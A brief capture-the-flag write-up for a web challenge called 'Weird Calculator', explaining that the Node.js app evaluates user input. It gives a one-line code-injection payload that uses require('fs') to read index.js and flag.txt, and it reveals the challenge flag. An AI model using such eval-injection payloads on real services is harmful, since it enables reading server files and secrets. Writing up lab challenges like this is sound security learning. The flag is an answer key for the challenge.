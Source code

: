 # Weird Calculator

**category** : web

## Challenge

This was a web challenge where we were given a file that contains web source code. Looking at the NodeJS code, the web evaluated our input. This means that we could inject a payload to read the index file to get the flag.

My payload snippet:
`res.end(require(‘fs’).readFileSync(‘index.js’).toString() + require(‘fs’).readFileSync(‘flag.txt’).toString())`

# flag: `bsides_delhi{Prototype_and_sh3ll1ng_by_the_Cs1de}`